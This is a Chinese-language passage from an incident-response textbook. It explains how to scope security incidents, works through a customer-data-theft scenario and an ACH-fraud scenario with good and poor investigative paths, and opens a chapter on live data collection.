为了帮助清楚我们在本章中的重点，考虑一下警方调查。如果便利店被抢劫，警察不会采访犯罪地点一定半径内的每一个人。他们也不会扣押商店中的每件物品进行指纹测试。相反，他们收集并检查初始证据。他们向目击者取证，或者查看安全摄像头录像。根据这些信息，他们决定采取哪些下一步行动，最有可能推动调查——也许是采访其他人，查看更多的安全摄像头录像，或者获得搜查令。在某些情况下，警方可能会认为没有有效的方法去追查调查，也许是由于缺乏初始证据。
考虑到这个背景，让我们想一想如何确定计算机安全事件的范围。尽管事件涉及计算机，但许多传统的调查原则仍然适用。一名优秀的事件响应者将考虑这些原则，因为它们通常有效地解决犯罪。例如，如果您检测到某个用户收到了钓鱼电子邮件，您应该确定其他用户收到了该电子邮件的附加事实，他们在哪个部门工作，以及电子邮件收到的日期。在本章中，我们将分享一些我们在计算机安全事件背景下应用传统调查原则的经验。首先，我们介绍一些基本概念，然后我们会看一些场景，以帮助说明如何使用它们。

> 开始前
本章后面呈现的场景是基于我们个人进行的实际调查的真实场景。但是，我们的场景与任何单个组织中的事件之间没有直接联系。我们已经特别注意了所有细节，并“混合了一些事情”。如果您读到我们的某个场景并认为我们正在讨论在您的组织中发生的事件，请记住，您并不孤单——这些场景发生在许多组织中。
在我们的场景中，我们参考了一些我们尚未完全涵盖的主题。例如，作为场景的一部分，我们可能会执行实时响应。虽然我们早在本书中就介绍了实时响应的概念，但我们尚未提供有关实际过程的详细信息。但是，
> 

### 我该怎么做？

在本节中，我们将讨论一些基本概念，以帮助您在调查的早期阶段发现范围并决定下一步采取的步骤。当我们说“范围”时，我们指的是更好地了解攻击者做了什么，因为最初的检测很少讲述了完整的故事。我们将涵盖三个应该帮助您发现范围的领域：
• 检查初始数据
• 收集和审查初步证据
• 确定行动方向

在本章后面，我们将提供一些场景来帮助说明如何应用在每个领域中讨论的概念。请记住，当您阅读本节的其余部分时，这些场景是基于我们的经验而编写的——我们混合了一些事情。让我们先看看第一个领域，检查初始数据。

#### 检查初始数据

作为检测事件的一部分，您应该具有有关检测的一些初始信息。例如，如果事件是结构化查询语言(SQL)注入，则应具有日期、时间以及源和目标IP地址。您还将想要与管理检测系统的工作人员交谈，以查看是否有其他详细信息可用。采用“信任但验证”的方法——询问是否可以查看警报详细信息。您可能会注意到有其他有用的信息可用于调查。询问其他检测系统及其检测和记录的内容——可能有系统可以提供其他信息。请记住，网络管理员可能不会像调查人员那样思考。您不应假设他们会告诉您“重要信息”，因为他们可能不知道对调查而言什么是重要的。

检测事件本身并不足以说明问题。您必须收集提供检测事件更好的上下文的事实。例如，您可能会收到警报，称您环境中的系统连接到了托管恶意软件的网站。您的反应可能是通过删除其网络访问来限制该系统的功能，这可能是一个不错的第一步。但是，了解更多信息也是一个好主意。考虑五个W和一个H——谁、什么、何时、何地、为什么以及如何。谁是用户？他们在哪个部门工作？有人和他们交谈过吗？他们在电脑前吗？发生在哪个时间？是什么网站？它很出名吗？传输了什么？传输了多少数据？此事件后续是否存在与该系统或用户相关的其他异常情况？这些问题的答案可能会对您决定如何继续产生重大影响。

现在您已经检查了初始数据，让我们讨论如何决定要收集哪些初步证据以及您要如何处理它们。

#### 收集和审查初步证据

在这一步中，您必须确定哪些初步证据来源可能有所帮助，然后决定您实际上将使用哪些来源。最后，您将收集和审查证据。您需要找到能够快速提供初始答案的证据来源。理想情况下，您应该识别来自几个类别的证据来源，并需要很少的分析工作。例如，如果调查问题是确定是否在系统上执行了恶意软件，则可以考虑以下证据来源：

- 恶意软件直接在系统上创建的工件，如文件或注册表键
• 操作系统工件，例如Windows预读取，间接工件
• 应用程序工件，例如Internet浏览器历史记录或软件计量工具
• 网络工件，例如可能记录网络连接的防火墙日志

这四个来源是我们所谓的“独立证据来源”。例如，防火墙日志的存在可能显示恶意软件的网络连接，这不依赖于注册表键的存在，反之亦然。如果使用多个独立的证据来源，您将得出更可靠的结论。让我们再谈一谈，因为在调查的早期阶段这非常重要。
如果使用独立的来源，发现执行的可能性更高。我们相信这是真实的原因有很多。攻击者更难从所有独立证据来源中删除或修改证据。通常也不太可能所有来源中的常规过程会覆盖或丢弃证据。而且，使用多个独立来源，您可以交叉检查信息，例如事件发生的确切时间。如果来源一致，无论结果是积极的还是消极的，基于结果得出的结论更有说服力。
如果来源彼此依赖或属于单个类别(如Windows预读取)，则检测的机会较低。例如，Windows可能只是作为正常预读取文件管理过程的一部分删除预读取文件。单个类别的证据来源通常会导致无法得出结论的结果，因为有太多的替代理论是您无法排除的。
在确定来源并收集数据后，您将执行审查。每经过一分钟，攻击者可能会造成更多的损害。因此，您应使用可以快速产生结果的审查方法。您还应进行基本测试，以确保审查方法快速而准确。例如，如果您需要查询特定IP地址的防火墙日志，则应从小的测试开始，例如仅查询一天的数据。该测试将让您了解查询需要多长时间，这将使您决定是否接受该方法。
您还可以通过包含应生成结果的IP地址来测试准确性。在本书的第11章到第16章中，我们将详细介绍分析方法。

> 注意
正如我们在本书中之前提到的，缺乏证据并不意味着没有证据。您检测到恶意活动的初始系统可能是唯一受影响的系统，也可能是数百个系统之一。攻击者可能仅获得了他们的初始立足点，也可能窃取了吉字节的数据。我们不提倡偏执的方法——我们只是建议在您没有找到证据表明“没有发生坏事”时假设是不好的做法。根据我们的经验，在检测到漏洞的情况下，这种假设是漏检的主要因素。
> 

#### 确定行动方向

收集和审查初步证据后，您需要决定要执行哪些主要活动。这些活动通常包括保留证据，但也可能是定位或遏制行动。与任何决策一样，您可以权衡一些因素，以帮助您做出选择。在确定范围的过程中，我们发现以下问题对我们有所帮助：

- 行动是否有助于回答调查问题？
• 行动是否能够快速回答我的问题？
• 我是否遵循证据？
• 我是否对单一理论投入了太多的精力？
• 我是否使用多个独立的证据来源？
• 我是否了解了工作量？
• 我是否保持客观？
• 我是否跟踪了受损最早和最近的证据？
• 我是否发现了需要立即修复的问题？

因为没有“最佳方法”来做出决策或“理想路径”来解决案件，我们决定提供两个场景来帮助阐明流程。每个场景都包含一个合理的调查结果，然后是一个或多个有问题的路径。我们采取这种方法，以便您可以看到足够与不足的调查路径中的模式以及导致每个路径的推理。因为本章是关于发现事件范围的，因此这些场景仅涵盖调查方面。修复和恢复主题在第17章和第18章中涵盖。

### 客户数据丢失情景

在这种情况下，您在一家大型在线零售商的IT安全部门工作。您的公司一直在接到客户有关电子邮件垃圾邮件的投诉。客户表示，成为新客户后不久，他们开始接收到大量的电子邮件垃圾邮件。这种情况最初比其他情况略微缺乏“具体性”，因为没有实际的警报数据或其他安全问题的迹象。然而，担忧正在增加，IT安全被要求进行调查。
让我们首先检查初始数据。由于与情景相关的“初始数据”是轶闻式的客户投诉，因此您决定需要更具体的内容来支持客户的声明。一个选择是与客户合作并查看他们的电子邮件。然而，这个想法有许多可靠性和隐私问题，应该被避免。更好的选择是创建虚假的客户帐户，每个帐户都有独特的电子邮件地址。因此，您决定创建三个虚假的客户帐户，每个帐户都有独特的电子邮件地址，在单独的电子邮件域中。为了大大降低垃圾邮件发送者“猜测”地址的可能性，您将用户名创建为具有64个字节长度的随机字符串。创建客户帐户后，您开始监视相关的电子邮件帐户以获取任何传入的邮件。与此同时，您认为数据正在以某种方式丢失，并开始进行一些研究和准备下一步的工作。
进入收集和审查初步证据阶段后，您的第一步是确定客户数据存储在哪里以及如何管理。您首先要找到存储客户电子邮件地址的所有数据库。如果电子邮件地址被盗，它们应该来自这些数据库之一。您发现有一个内部数据库和一个外部数据库。内部数据库是用于正常业务的生产服务器。外部数据库是与第三方营销公司配合的，主要用于电子邮件和邮政邮件活动。
为了获得更多上下文，您采访了内部IT部门和业务所有者，了解数据库类型和大小，网络流量的大致量，记录何时更新，谁执行更新，备份存储在哪里以及记录如何以及何时转移到第三方营销公司。您了解到以下事实：

- 客户数据库系统是一种主流商业产品，具有先进的查询监控和报告能力。
- 数据库大小约为500GB（千兆字节）。
- 数据库网络流量大约为每天3TB（太字节）。
- 客户记录通过公司网站直接更新或通过电话手动更新到客户服务部门。
- 没有其他更新客户记录的方法。
- 备份在您公司的另一个设施上保留本地和离线。
- 市场营销公司在更新后一个月的末尾接收数据。

这些信息可以让您即使没有任何真正的“证据”也能报告一些进展：

- 据客户的抱怨，营销公司不太可能是数据丢失的源头，因为垃圾邮件的接收比公司收到数据早。
- 通过电话呼叫客户记录的盗窃似乎不太可能；因此，对数据输入方面的任何调查重点将集中在网站上。
- 数据库的网络流量很大，因此如果需要，执行网络数据包捕获可能会很困难。因为数据库支持高级查询监控，这可能是监视数据库访问的更好方法。

目前，你还在等待看看是否有垃圾邮件进入你为虚假客户创建的电子邮件账户。因此，在等待期间，你考虑其他线索或理论来解释情况。例如，许多高管询问此是否是内部人员的杰作。此外，也许有人修改了你的网站代码，以向攻击者发送客户电子邮件地址的副本，或正在复制备份磁带。虽然其他理论是可能的，但现在你还没有信息表明其中一个比另一个更有可能。在这个时候，为任何一个理论投入大量的努力都没有正当的理由。然而，你仍然可以确定一些低成本步骤，可以帮助你消除其中一个或多个理论。例如，你可以直接将客户信息输入数据库，而不是使用网站。如果你注意到电子邮件地址仍然被垃圾邮件滥用，那么你有一些证据表明网站并未涉及。关于备份磁带理论，你可以请求IT工作人员创建一个额外的备份，其中包含不属于生产数据库的客户记录。最后，关于内部威胁，目前没有合理的调查步骤，尽管编制一个可以访问客户数据库的帐户列表可能会证明有用。

等待两周后，你开始在为虚假客户配置的电子邮件账户中接收到垃圾邮件。这些消息很快就到来了，两天内每个账户都有约20封垃圾邮件，所有邮件内容都非常相似。你还收到与你手动输入到数据库中的帐户相关联的垃圾邮件，这表明网站不是问题的一部分。此外，你仍然没有看到与备份磁带上放置的帐户相关的垃圾邮件，这表明它不是数据丢失的来源。

基于已知事实，似乎数据丢失的最有力线索是直接访问数据库。攻击者可能在数据库服务器上安装了恶意软件，或者通过网络访问它。监视查询有两种基本方法 - 通过网络级数据包捕获或通过数据库级查询监视和记录。由于数据库的网络流量非常高，执行数据包捕获将要求你实现一个高端的监控系统，这需要时间和产生显着的成本。此外，如果查询是加密的或者如果攻击者通过系统上的恶意软件访问数据库，则你可能无法轻松解码网络内容。因此，你决定收集更多数据来收集额外证据的最有效和可靠的方式是实施数据库级查询监视。同时，你还创建了更多虚假客户帐户，以便你可以收集调查的附加数据点。

在设置查询监视的头几天中，你扫描日志以获得“正常”情况的大致概念。你还与数据库和应用程序管理员交谈，以确定某些数据存储在客户端中。具体而言，你检查是否有执行批量导出包括电子邮件地址的客户个人资料信息的查询或存储过程。你没有注意到每天似乎会发生的查询，因此你希望如果攻击者查询数据库，这将是明显的。等待两周后，你开始在新创建的帐户上收到垃圾邮件。因此，你检索涵盖你上次审核的查询日志的查询日志，直到你开始收到垃圾邮件为止。你搜索感兴趣的字段“custemail”中的日志。其中包含一个查询字符串，其发生在三天前。查询是“select custemail from custprofile where signupdate> = February 16, 2014。”此SQL查询检索在2014年2月16日或之后创建的帐户的客户电子邮件地址。该日期大约是两周前，大致与最后一波新垃圾邮件同时发生。

日志审查显示，查询是在2014年2月17日下午11:42 GMT执行的，并且起源于属于你公司平面艺术部门的台式计算机的IP地址，但查询使用属于IT部门的数据库管理员的用户名。你跟踪平面艺术部门主任并询问他们是否在正常业务中使用客户电子邮件地址。他们解释说，他们与客户没有互动或联系，但是他们与许多外部供应商有频繁的电子邮件联系。

此时，你已经收集了足够的初步证据来得出实际存在问题的结论，你有良好的线索，并且可以确定行动方案。首先，让我们回顾一些关键点：

- 有证据支持人们在成为新客户后立即收到垃圾邮件的投诉。
- 初步数据表明，数据丢失的两周周期仅包括客户的电子邮件地址。该数据直接从生产数据库中提取。
- 数据库查询通过网络进行，并起源于平面艺术部门的台式计算机。该部门不使用客户电子邮件地址作为其正常业务流程的一部分。此外，查询使用属于IT部门的数据库用户ID。

现在是时候确定行动计划了。基于这些要点，你有两个主要的证据来源可以进一步进行调查 - 生产数据库和平面艺术部门的台式计算机。因为你目前有少量线索和低数据量，所以你决定收集更详细的证据。关于平面艺术部门的台式计算机，你决定执行以下操作：

- 收集实时响应。
- 创建内存和硬盘的取证映像。
- 采访用户并确定以下内容：
    - 系统分配给他们的时间有多长
    - 是否注意到有人在他们不应该使用的情况下使用它
    - 系统是否“表现奇怪”
    - 系统是否全天24小时，每周7天处于开启状态

关于数据库服务器，你决定执行以下操作：

- 收集实时响应。
- 保留记录用户访问的所有数据库日志。
- 保留所有查询日志。
- 保留所有应用程序和系统日志。

当你的团队的其他成员执行数据收集时，你开始考虑一旦你拥有拷贝后将要查找的内容。因为你知道一个SQL查询是在平面艺术计算机上于格林威治标准时间下午11:42于2014年2月17日发起的，你认为首先检查该系统是否有用户登录是一个好的第一步。你还对该系统在查询周围的网络活动感兴趣。因为你的网络使用DHCP分配IP地址，所以你需要确定系统的IP地址，以便查询代理和防火墙日志。（请注意，在前面的列表中，我们保留了包含用户访问信息的所有数据库日志。我们不仅保留与疑似用户帐户有关的记录。）

对平面艺术计算机进行详细检查后，发现已安装了恶意软件。该恶意软件是持久的，并提供全面的功能，包括远程Shell，远程图形界面和启动和终止进程的能力。该恶意软件连接到分配给外国国家的IP地址。此外，证据表明该恶意软件已安装了将近两年。但是，没有足够的证据说明该系统最初是如何被感染的。你在调查的最后几步是：

- 使用主机检查工具检查公司企业中的每台计算机，以查找妥协指标 - 文件名、注册表键和恶意软件的其他独特特征。
- 查询防火墙日志，以查找其他计算机可能受到感染的迹象 - 流量到恶意软件连接的IP地址。
- 注意：
  
    本场景几次提到“内部威胁”。您可能已经注意到，我们将内部威胁理论放在与其他理论相同或更低的级别，即使最初的证据之一指向内部系统的问题。您可能会听到一些人争论说内部威胁更有可能是因为从内部攻击网络“更容易”，或者因为新闻媒体说这是一个大问题。根据我们的经验，攻击者通常很容易获得对内部系统的访问 - 尽管受害者从不承认，因为这可能会令人尴尬或在法律上是有罪的。此外，我们发现，如果调查过于关注“谁在做这件事”而不是回答“正在发生什么”，则调查往往会失败。因此，在没有其他特定证据表明内部威胁的情况下，我们建议您仅按照证据行事，并保持开放的心态。
    

接下来，让我们看看一些可能会导致不良结果的情况下的范围设置。

#### **客户数据丢失 - 范围设置走错了**

这种情况开始时缺乏细节，因此可能会轻易地走向更糟的情况。以下是其中一些途径：

- **不明智的路径**在收到有关客户数据被窃取的投诉后，决定搜索公司中的每台计算机，以查找客户数据中的唯一字符串。在搜索字符串时，还将目录文件大小超过一定大小的文件。文件大小是根据客户记录的大小计算的。
  
    **问题**如果您有更多信息表明数据存储在您的环境中的某个系统上，则使用此方法可能是可以的。此方法还假设每次盗窃间隔都从数据库中提取完整的客户电子邮件地址列表。没有迹象表明发生了这种情况。此外，这种方法没有意义，因为提取完整列表会对数据库、数据所放置的系统以及互联网连接产生重大开销。最低限度，攻击者可能会使用压缩，可能将数据大小减少10倍。最后，为了搜索企业中的数千台计算机，并处理可能的压缩/编码和误报等问题，所需的工作量可能非常大。这条路线更多地是一个“最后的手段”选项。
    
- **不明智的路线** 调查集中于公司内部哪些人具有足够的知识和访问权限来窃取客户信息。收集了许多员工档案，对每个员工的人事档案进行了审核，并对每个人进行了背景调查。在员工的计算机上安装了捕捉按键和屏幕截图的监视软件。复制并每天审核他们进出办公室的安全录像。
  
    **问题** 集中于“谁可能做到这一点”往往会导致巫狩行动，而不是调查。这条路线可以被认为是侵犯员工隐私，而且没有证据表明他们中的任何人都涉及其中。
    
- **不明智的路线** 因为客户数据存储在数据库服务器上，安全团队决定成像和分析数据库服务器的存储器。他们认为服务器上必须有恶意软件，因为数据正在被窃取。即使没有恶意软件，他们认为记忆中必须有一些恶意活动的残留物。该团队集中于记忆是因为创建图像所需的时间和空间比成像硬盘少得多。他们还认为发生在系统上的任何事情在某些时候必须在记忆中-因此需要保留硬盘的需要很低。他们继续每天成像记忆，寻找可疑活动。
  
    **问题** 有意决定将所有资源集中于单个证据类别是较差的调查形式，无论您对该来源有多么自信。
    

##### **自动清算系统（ACH）欺诈情况**

在这种情况下，您为一家当地的五金店连锁店工作。您是IT总监和IT安全经理。您的CEO刚刚告诉您，银行打电话告诉他们阻止了一笔183,642.73美元的ACH转账。转账的目标账户以前从未被使用过，并被他们的欺诈预防系统标记。银行表示使用了CFO的在线银行账户。CFO说他没有发出该转账请求。您的CEO确认转账请求不是合法的。您的CEO希望您弄清楚这是如何发生的。您首先回顾银行提供的信息：

- 转账请求是使用您的CFO的在线银行账户发起的。
- 请求的转账金额为183,642.73美元。
- 转账请求是一天前的下午4:37（GMT-5（EST））发起的。
- 源IP地址是您公司的公共互联网IP地址（您的防火墙）。
  
    基于这些初步数据，您开始考虑要检查哪些初步证据来源。考虑到两个广泛的类别-网络和主机-首先想到的是防火墙和CFO的笔记本电脑。您知道防火墙保留大约两周的日志可供检查。此外，您还可以从CFO的计算机收集法医数据，例如实时响应、内存和硬盘。但是，可能涉及CFO之外的计算机。由于您的互联网流量不高，可以快速导出防火墙日志，因此您决定首先快速检查日志以查找与银行的连接。这应该有助于回答哪些证据来源是高优先级的问题。
    
    您将昨天的防火墙日志导出到计算机上并进行初步审核。您认为最好从未经授权的转账请求发生的时间附近开始查找，因为某人应该在转账请求之前登录。因此，您搜索了任何在下午4:00左右的银行IP地址的所有连接。您发现有许多连接通过端口443，标准的HTTPS端口，从下午4:10开始，并持续到下午4:48。在这些连接记录中，您确定了两个独特的内部IP地址-一个属于您的CFO的计算机，另一个您不立即认识。
    
    基于初步防火墙日志审核结果，您提出了两个高优先级任务。首先，因为您拥有初步证据表明未经授权的交易与CFO的计算机存在联系，因此您认为重要的是保留完整的法医数据-实时响应、内存和硬盘。您必须快速完成这项工作，因为对于最近的事件，有更高的可能性，有用的工件仍然存在于系统中。其次，因为您确定了另一个在同一时间连接到银行网站的IP地址，因此需要跟踪该IP地址，并在了解更多信息后采取适当的行动。
    
    在等待CFO计算机上的数据收集过程完成时，您开始跟踪未认识的IP地址。由于您的网络IP方案是通过DHCP控制的，因此您决定检查DHCP服务器日志以获取有关IP地址的更多信息。您在问题日期上搜索IP地址，并发现它分配给CFO笔记本电脑中的无线网卡的MAC地址。因此，现在您没有另一台计算机要处理-初步证据表明事件仅限于CFO的计算机。由于数据收集仍在运行，因此您花时间将所有防火墙日志导出副本以保存它们。
    
    接下来，您决定与CFO交谈以获得有关他的计算机的一些背景。在采访中，您发现以下内容：
    
    - CFO昨天在工作，但于下午4:30离开了办公室。
    - CFO在离开工作之前有一个会议。会议在会议室举行，在此期间，CFO说他使用了公司无线网络。该会议是为了将您当前的银行服务提供与竞争对手进行比较。在那次会议期间，CFO确实访问了银行的网站，但没有使用在线银行。
    - CFO重申他没有发起未经授权的转账，并且他不知道与转账相关的目标帐户号码的任何信息。
    
    随着初步数据收集的结束，您开始制定推进调查的计划。首先，让我们回顾一下您知道的和收集的证据：
    
    - 防火墙日志审核显示，您的CFO的计算机在该时段内连接到银行。没有其他计算机的连接。
    - CFO说他没有请求转账，并且此外，他在转账请求时不在办公室。您的公司不提供让留在办公室的计算机远程访问。
    - 您拥有过去两周的防火墙日志。
    - 您拥有CFO的计算机的实时响应数据、内存和硬盘镜像。
      
        基于此，让我们计划下一步该做什么。鉴于在未经授权的转账请求时段内从CFO的计算机到银行存在连接，但CFO不在办公室，您可以理论上解释连接的原因：
        
    - 可能有人进入了CFO的办公室并使用了他的电脑-您可以检查Windows事件日志以查找登录事件。您还可以检查安全摄像头以查看是否有人进入了CFO的办公室。
    - 或许CFO的计算机上有未被检测到的恶意软件，为远程攻击者提供了系统访问权限-您可以审核您收集的法医数据，以查找可疑的启动程序或在问题时间附近创建的工件。
      
        您认为在下午4:37左右有人进入CFO的办公室的可能性不大，因为办公空间是开放的，任何移动的人都很容易被看到。因此，您决定追求CFO的计算机上存在恶意软件的理论，并开始查看您收集的系统数据。您想到的是，也许应该对CFO下班后的防火墙日志进行仔细检查。现在，您决定查看系统可能提供更容易识别的工件-因此，在花时间审核系统之后，审核防火墙日志将是您接下来的任务。当您审核收集自CFO计算机的证据时，您发现最近安装了一项持久性可执行文件。您将该文件发送给第三方进行分析，他们得出结论，该文件是Zeus银行恶意软件的一个变体。他们向您提供了一些额外的指标，您在调查的最后步骤是
        
    - 对CFO的计算机进行彻底的法医审查。您仍需要确定系统何时被感染。
    - 使用基于主机的检查工具来检查公司中的每台计算机，以查找与恶意软件相关的指标-文件名、注册表键和其他唯一的恶意软件特征。
    - 查询防火墙日志，查找可能存在其他计算机感染的迹象-与恶意软件通信的IP地址流量。
      
        当此调查结束时，让我们思考不同的决策如何影响结果。
        
    ##### **ACH欺诈-范围界定出了问题**
    
    这种情况下的初始细节有助于开发良好的线索。即使如此，糟糕的判断可能会导致非常不同的结果。以下是两个可能的结果：
    
    ◦ **不明智的路线** 您没有最近的防病毒或入侵检测系统警报，因此您认为安全问题必须存在于银行中。您反对银行的说法，表示公司没有安全问题，银行应该解决这个问题。由于未经授权的交易指定了有效的目标银行账户，您认为银行应该能够与金融界合作，追踪真正的罪犯并将其关入监狱。
    
    **问题** 没有采取任何措施来验证银行的初步数据。您的公司假设如果存在问题，现有的网络安全措施将检测到问题。还有一个假设是一个或多个第三方组织可以帮助进一步调查。最后，如果您在将来的某个时刻决定调查您的网络，则与之相关的延迟可能会导
    

◦ **不明智的路径** 您的CEO认为金融机构已经采取了安全措施，以防止这种问题的发生，因此CFO必须发起转账。CEO希望您调查CFO作为主要嫌疑人，并避免让他察觉到。

**问题** 即使采取了安全措施，例如双重身份验证，也没有任何安全系统是无懈可击的。此外，调查的重点已经超出了您的专业领域，因此您应该建议您的CEO寻求外部协助。

### 那么呢？
发现事件的范围是快速解决问题的关键部分。了解范围可以让您更好地决定在案件上使用资源（包括人员和技术）。本章概述的过程将帮助您形成良好的范围习惯，因此您可以有效地分配资源，专注于正确的任务，最终找到证据，以便解决问题。

### 问题

1. 如果您的证据来源不包括多个独立类别，您可以采取哪些步骤来增加对结论的信心？
2. 在ACH欺诈场景中，想想另一种合理的理论，攻击者可能如何获得CFO的计算机访问权限。解释一下您将如何调查该理论。
3. 在客户数据丢失的情况下，采取了许多步骤来验证客户的投诉。列出至少两个有用的步骤，以帮助验证客户的投诉或隔离数据丢失的来源。

# 第三部分 **数据收集**

## 第七章 **实时数据收集**

我们几乎在每次应急响应调查中都会收集实时数据。 收集的主要目的是保留易失性证据，以进一步推进调查。实际上，我们还会收集任何可以快速收集到的其他信息，例如日志文件和文件清单。我们这样做是为了能够开始回答调查问题，而无需执行更长时间的驱动器复制。在许多情况下，执行实时数据收集和分析将帮助您快速获得答案，从而可以降低数据丢失或其他不良事件的风险。结果还应帮助您决定是否需要进行完整的驱动器复制。

然而，实时数据收集并非没有风险。一个重要的考虑是尽量减少由于收集过程而对系统造成的更改。如果您不使用自动化过程，您可能会对系统造成过度和不必要的更改，可能会干扰业务，破坏证据或提醒攻击者您的存在。在某些情况下，执行实时数据收集可能会导致系统崩溃。当执行实时数据收集时，您必须做好充分准备并保持勤勉。

在本章中，我们涵盖了许多主题，以帮助您执行有效的实时数据收集并降低潜在风险。我们解释了实时数据收集的意图，何时适合执行收集以及通常收集的数据。我们还涵盖了如何在今天常用的常见操作系统上执行实时数据收集或“实时响应”（LR）。有关更多好的阅读材料，请参见请求评论（RFC）3227，“证据收集和存档指南”。

::: ▶**在网上获取**

[www.ietf.org/rfc/rfc3227.txt](http://www.ietf.org/rfc/rfc3227.txt)

:::

- 注意

  您对何时以及如何响应系统所做的决策将直接影响您收集的证据的完整性、您将能够做出的结论以及您的发现在法律程序中的可证明性。您的决策结果可能会对您的组织产生重大影响。我们希望您在计划和执行实时数据收集时会意识到这些责任。

### **何时进行现场响应**

我们最常进行现场响应（也称为LR）是在入侵调查期间；但是，在其他类型的调查中执行现场响应可能是明智的选择。在决定是否在当前情况下执行现场响应时，您需要考虑以下五个重要因素：

1. 是否有理由相信，易失性数据包含了不在其他地方存在的与调查相关的关键信息？
2. 能否以理想的方式运行现场响应，将对目标系统的更改最小化？
3. 受影响的系统数量是否很大，使得对它们进行取证复制不可行？
4. 是否存在取证复制将花费过多时间或潜在失败的风险？
5. 是否存在法律或其他考虑因素，使尽可能保留数据变得明智？

执行现场响应也可能存在一些潜在的缺点。该过程可能会导致系统崩溃，甚至破坏证据。请确保评估以下问题，以确定执行现场响应的风险是否太大：

- 您是否在类似系统上测试过现场响应过程？
- 该系统是否特别敏感于性能问题？
- 如果系统崩溃，会有什么影响？
- 您是否与所有利益相关者进行了沟通并获得了他们的批准？在某些情况下，书面批准可能是明智之举。

我们经常被问及对系统进行更改的关注点以及从法律完整性的角度进行现场数据收集的影响。有些人是纯粹主义者，认为绝对不应该对可能影响其当前状态的系统采取任何行动。在IR情况下，这种观点会导致过程死锁。没有任何过程允许响应者与计算机系统交互而不对其进行更改。当您按下键盘上的键，建立网络连接，插入USB驱动器或运行程序时，您正在修改系统。关闭系统会在关闭过程中导致许多更改，并且会销毁易失性数据，例如内存。断开电源源将避免来自关闭过程的更改，但仍会销毁易失性数据，并可能使非易失性数据处于损坏状态，因为缓存未正确刷新。

由于无法避免进行更改，因此最重要的概念是将对系统的更改最小化，并记录您所做的事情。此外，请记住，不采取行动的方法通常是不可接受的。对于调查至关重要的证据可能随时丢失。所有事情都平等，应立即在怀疑系统受到威胁时实施响应协议。

### **选择现场响应工具**

在撰写本书的上一版时，现场响应工具的主要选项是创建自制解决方案，例如运行一系列命令的Microsoft DOS批处理脚本。今天，有许多选择，从完整的商业产品，到开源和其他免费解决方案，到运行一组单独程序或使用系统API收集信息的更精细的自制脚本。您的组织需要决定最合适实施的方式。随着现场响应技术和我们对计算机取证的理解不断发展，您还需要不断评估您正在使用的工具和程序是否合适。

在我们所在的公司，我们首选的现场响应工具包随着时间的推移而不断发展。最初，我们创建并维护了一个批处理脚本（或者在Unix和BSD平台上是一个BASH脚本）来运行单个工具。虽然该解决方案提供了更大的控制权，但维护该解决方案也需要时间。然后，我们转向了一个基于Perl的脚本，该脚本能够本地收集更多的信息，从而减轻了一些维护负担。今天，我们大多数情况下已经不再维护自定义脚本。有许多现场响应解决方案，包括免费和商业解决方案，提供我们所需的功能。我们通常使用的解决方案将在本章后面介绍。但是，您的需求可能有所不同，因此我们鼓励您自行评估潜在的现场响应解决方案。我们建议您在评估解决方案时考虑以下因素：

- *该工具是否在取证社区中被广泛接受？* 在第三章中，我们谈到了法院证据可接受性的一些要求。通常，您在整个调查过程中使用的工具和程序应努力满足这些要求。可接受性涉及许多领域的考虑，包括日志记录，证据链，加密校验和，以及可靠的程序和算法。如果您决定使用的工具在您使用它们的目的上不被取证社区普遍认可和接受，那么您增加了争议的风险。
- *该解决方案是否针对您的环境中的常见操作系统？* Microsoft Windows可能是最受欢迎的操作系统之一，但许多环境都混合使用了Windows，Unix，Apple和其他操作系统。如果其中一个系统受到攻击，会发生什么？您应该拥有针对您环境中使用的所有常见操作系统的现场响应工具。对于作为解决方案的一部分执行操作系统命令的工具，它们应该使用工具包的可信副本，而不是使用潜在受损系统上的文件。
- *该解决方案是否收集了基于您的环境重要的数据？* 了解哪些数据是重要的，将帮助您选择适当的解决方案。您应该收集最有可能帮助回答常见问题并提供线索的数据。您收集的一部分应该基于您环境中的系统和配置的软件。例如，从安全或其他软件程序中收集日志文件可能很有用。但是，在大多数情况下，大部分现场响应数据将来自操作系统创建的来源。
- *收集需要多长时间？* 进行现场响应的目标是快速获得答案。因此，现场响应收集不应花费太长时间。我们希望单个系统的流程平均不到一小时就能完成。
- *收集是否可配置？* 在某些环境中，我们发现收集某些信息会有问题。在其他情况下，我们需要收集不是标准现场响应过程的一部分的其他数据。收集工具应该是可配置的，以便您可以添加或删除要收集的项目。
- *输出是否易于审查和理解？* GUI界面很好，但我们也喜欢访问原始数据，以便我们可以使用脚本或其他工具执行自定义分析。一些现场响应工具以难以处理的格式产生原始输出。非结构化数据通常不可接受，除非内容非常短。结构化数据要容易得多，因为有许多工具可用于查看，排序和过滤这些格式（CSV，TSV，XML等）。有时，即使是结构化数据也可能存在问题，特别是当内容没有得到适当记录时。在这些情况下，您可能会发现难以解析或更重要的是解释数据。

### **收集什么**

在大多数情况下，我们从两个一般类别中收集信息。第一类是描述系统当前运行状态的数据，例如网络连接和运行进程。这些数据通常是系统内存的内容，提供有助于回答现在正在发生什么的问题的信息。第二类是信息，它的易失性较低，提供了可以回答过去发生的重要信息的快照，例如文件列表，系统日志或其他操作系统或应用程序特定数据。在调查期间，重要的问题通常是关于过去发生了什么，因为检测几乎总是延迟的。因此，在进行现场数据收集时，我们倾向于优先考虑能够告诉我们发生了什么的数据。但是，根据情况，您可能需要更改优先级。

在整个调查过程中，我们根据数据如何有效地帮助我们快速回答调查问题而不断评估要收集的内容。除了常规的证据保护问题外，您还必须考虑正在进行的事件的情况。例如，如果事件涉及大规模恶意软件感染，则可能没有理由进行广泛的数据收集。但是，如果您得知攻击者正在执行仅在内存中加载的恶意软件，则捕获整个内存内容可能非常重要。

- **深度探究**

  我们发现，一些组织已经订阅了特定的收集协议，没有任何逻辑上的合理性，例如始终收集系统内存的全部内容或为每个受影响的系统执行取证复制。在某些情况下，该组织成为了营销宣传或自认为是“专家”的个人错误建议的受害者。您不应该收集您没有有效或理解的数据。我们认为，您应该根据使用您收集的数据快速确定事件影响的能力来建立您的收集协议。请记住，安装恶意软件不是攻击者的目标，而是达到其最终目的的手段或第一步。您必须跟进线索并尝试确定攻击者试图实现什么目标。**

尽管每个操作系统都有一组独特的证据来源，但几乎所有操作系统都有许多共同点。有些数据是操作系统的固有部分，而有些数据来自诸如日志记录之类的来源。重要的是要意识到操作系统设置可以极大地影响可用证据，从而影响您可以回答的问题。您的组织应努力确保可获得合理的最大数据量。最低限度，您选择的实时响应工具应能够从系统中收集以下常见实时响应数据：

- 系统时间和日期，包括时区
- 操作系统版本信息
